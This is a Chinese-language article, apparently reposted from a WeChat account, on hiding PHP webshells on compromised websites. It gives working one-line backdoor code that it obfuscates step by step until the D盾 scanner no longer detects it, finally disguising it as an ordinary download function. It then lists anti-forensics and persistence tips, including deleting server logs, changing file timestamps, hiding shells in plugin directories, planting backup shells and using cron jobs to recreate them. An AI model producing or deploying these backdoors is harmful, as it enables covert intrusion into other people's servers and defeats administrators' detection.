# 如何优雅的隐藏你的Webshell


> 转自：酒仙桥六号部队 https://mp.weixin.qq.com/s/lExi2_y4NkTak735kpz4ug
> 这个公众号的文章质量都非常高，推荐大家关注

拿下一个站后总希望自己的后门能够很隐蔽！不让网站管理员或者其他的Hacker发现，网上关于隐藏后门的方法也很多，如加密、包含，解析漏洞、加隐藏系统属性等等，但大部分已经都不实用了，随便找一个查马的程序就能很快的查出来，下面分享我总结的一些经验：

## 制作免杀webshell

隐藏webshell最主要的就是做免杀，免杀做好了，你可以把webshell放在函数库文件中或者在图片马中，太多地方可以放了，只要查杀工具查不到，你的这个webshell就能存活很长时间，毕竟管理员也没有那么多精力挨个代码去查看。

### 命令执行的方法

这里使用我们最常用的php的一句话马来给大家做演示，PHP版本是5.6的，在写一句话马之前我们来先分析一下PHP执行命令方法

#### 直接执行

使用php函数直接运行命令,常见的函数有(eval、system、assert)等，可以直接调用命令执行。

```php
@eval('echo 这是输出;');
```



#### 动态函数执行

我们先把一个函数名当成一个字符串传递给一个变量，在使用变量当作函数去执行

```php
$a="phpinfo";$a();
```



#### 文件包含执行

有两个php文件，我们把执行命令的放在文件b中，使用文件a去包含，达到执行的效果

b.php

```php
<?php
@eval('echo 这是输出;');
```

a.php

```php
<?php
include a.php
```



### 回调函数

将想要执行命令的函数赋值给一个变量，再用一个可以调用函数执行的函数把变量解析成函数，这么说可能有点绕，看一下array_map函数的用法：array_map函数中将$arr每个元素传给func函数去执行，例子：

```php
<?php
$func = 'system';
$arr = array('whoami');
array_map($func, $arr);
```



### PHP Curly Syntax

我们可以理解为字符串中掺杂了变量，再使用变量去拼接字符串，达到命令执行的效果

```php
<?php
$a = 'p';
eval("{$a}hpinfo();");
```



### php反序列化

这是根据php反序列化漏洞来实现命令执行，可以先创建一个反序列化的漏洞文件，再去调用反序列化函数unserialize

```php
<?php
class test{
    public $a="123";
    public function __wakeup(){
        eval($this->a);
    }
}
unserialize('O:4:"test":1:{s:1:"a";s:10:"phpinfo();";}');
```



### php://input方法

php://input可以访问请求的原始数据的只读流，我们可以理解为我们传post参数，php://input会读取到，这时候我们就可以加以利用了。

```php
<?php
@eval(file_get_contents('php://input'));
```



### preg_replace方法

preg_replace函数执行一个正则表达式的搜索和替换。我们可以使用一个命令执行函数去替换正常的字符串，然后去执行命令。

```php
<?php
echo preg_replace("/test/e",phpinfo(),"jutst test");
```



### ob_start

ob_start函数是打开输出控制缓冲，传入的参数会在使用ob_end_flush函数的时候去调用它执行输出在缓冲区的东西。

```php
<?php
$cmd = 'system';
ob_start($cmd);
echo "whoami";
ob_end_flush();//输出全部内容到浏览器
```



## 编写免杀

上面说了那么多其实都是一句话木马的思路，每一种方式都可以写成一句话木马，而想要免杀常常会多种组合到一起，下面从最简单的木马一步步变形，达到免杀的目的。

```php
assert($_POST['x']);
```


这种就是最简单的一句话木马，使用D盾扫一下，可以看到5级，没有什么好说的。

动态函数方法,把assert这个函数赋值两次变量,再把变量当成函数执行。

```php
$c = "assert";
$c($_POST['x']);
```


回调函数方法，把assert函数当作参数传给array_map去调用执行。

```php
<?php
$fun = 'assert';
array_map($fun,array($_POST['x']));
```


可以看到上面的都是通过两种方法的结合，简单的处理一下，就变成了4级，感兴趣的可以把其他的方法都尝试一下，4级的很简单，我们去看看3级的都是怎么处理的

通过上面的动态函数方法我们可以思考，函数可以当成字符串赋值给变量，那么变量也一定能当成字符串赋值给变量，但调用时需要用$$

```php
<?php
$a = "assert";
$c ='a';
$$c($_POST['x']);
```



我们在把这种方法结合到回调函数方法中，可以看到，已经是2级了

```php
<?php
$fun = 'assert';
$f = 'fun';
array_map($$f,array($_POST['x']));
```



这时候我们看一下D盾中的说明：array_map中的参数可疑，我们这时候可以用函数封装一下参数

```php
<?php
function ass(){
    $a = "a451.ass.aaa.ert.adaww";
    $b = explode('.',$a);
    $c = $b[1] . $b[3];
    return $c;
}
$b = array($_POST['x']);
$c = ass();
array_map($c,$b);
```


1级了，离目标近在咫尺了，这时候我们应该考虑让一句话木马像正常的代码，在好好的封装一下

```php
<?php
functiondownloadFile($url,$x){
    $ary = parse_url($url);
    $file = basename($ary['path']);
    $ext = explode('.',$file);
    // assert 
    $exec1=substr($ext[0],3,1);
    $exec2=substr($ext[0],5,1);
    $exec3=substr($ext[0],5,1);
    $exec4=substr($ext[0],4,1);
    $exec5=substr($ext[0],7,2);
    $as[0] = $exec1 . $exec2 . $exec3 . $exec4 . $exec5;
    $as[1] = $x;
    return $as;
}

$a = $_POST['x'];
$s = downloadFile('http://www.baidu.com/asdaesfrtafga.txt',$a);
$b = $s[0];
$c = $s[1];
array_map($b,array($c));
```



再试试其他免杀工具。

WebShellKiller：


安全狗：


微步云沙箱：



再试试可不可以连接没有问题，完美！！



## 更好的隐藏webshell一些建议

1. 拿到权限以后,把网站日志中的所有关于webshell的访问记录和渗透时造成的一些网站报错记录全部删除

2. 把webshell的属性时间改为和同目录文件相同的时间戳,比如Linux中的touch就是非常好的工具

3. 目录层级越深越好,平时网站不出问题的话,一般四五级目录很少会被注意到,尽量藏在那些程序员和管理员都不会经常光顾的目录中比如:第三方工具的一些插件目录,主题目录,编辑器的图片目录以及一些临时目录

4. 利用php.ini 配置文件隐藏webshell,把webshell的路径加入到配置文件中

5. 尝试利用静态文件隐藏一句话,然后用.htaccess 规则进行解析

6. 上传个精心构造的图片马,然后再到另一个不起眼的正常的网站脚本文件中去包含这个图片马

7. 靠谱的方法就是直接把一句话插到正常的网站脚本文件里面,当然最好是在一个不起眼的地方,比如:函数库文件,配置文件里面等等,以及那些不需要经常改动的文件

8. 如果有可能的话,还是审计下目标的代码,然后想办法在正常的代码中构造执行我们自己的webshell,即在原生代码中执行webshell

9. webshell里面尽量不要用类似eval这种过于敏感的特征,因为awk一句话就能查出来,除了eval,还有,比如:exec,system,passthru,shell_exec,assert这些函数都最好不要用,你可以尝试写个自定义函数,不仅能在一定程度上延长webshell的存活时间也加大了管理员的查找难度,也可以躲避一些功能比较简陋waf查杀,此外,我们也可以使用一些类似:call_user_func,call_user_func_array,诸如此类的回调函数特性来构造我们的webshell,即伪造正常的函数调用

10. webshell的名字千万不要太扎眼,比如:hack.php,sb.php,x.php这样的名字严禁出现……,在给webshell起名的时候尽量跟当前目录的,其他文件的名字相似度高一点,这样相对容易混淆视听,比如:目录中有个叫new.php的文件,那你就起个news.php

11. 如果是大马的话,尽量把里面的一些注释和作者信息全部都去掉,比如intitle字段中的版本信息等等,用任何大马之前最好先好好的读几遍代码,把里面的shell箱子地址全部去掉推荐用开源的大马,然后自己拿过来仔细修改,记住,我们的webshell尽量不要用加密,因为加密并不能很好的解决waf问题,还有,大马中一般都会有个pass或者password字符,建议把这些敏感字段全部换成别的,因为利用这样的字符基本一句话就能定位到

12. 养成一个好习惯,为了防止权限很快丢失,最好再同时上传几个备用webshell,注意,每个webshell的路径和名字千万不要都一样更不要在同一个目录下,多跳几层,记住,确定shell正常访问就可以了,不用再去尝试访问看看解析是否正常,因为这样就会在日志中留下记录,容易被查到

13. 当然,如果在拿到服务器权限以后,也可以自己写个脚本每隔一段时间检测下自己的webshell是否还存在,不存在就创建

14. 在有权限的情况,看看管理员是否写的有动态webshell监测脚本,务必把脚本找出来,crontab一般都能看见了

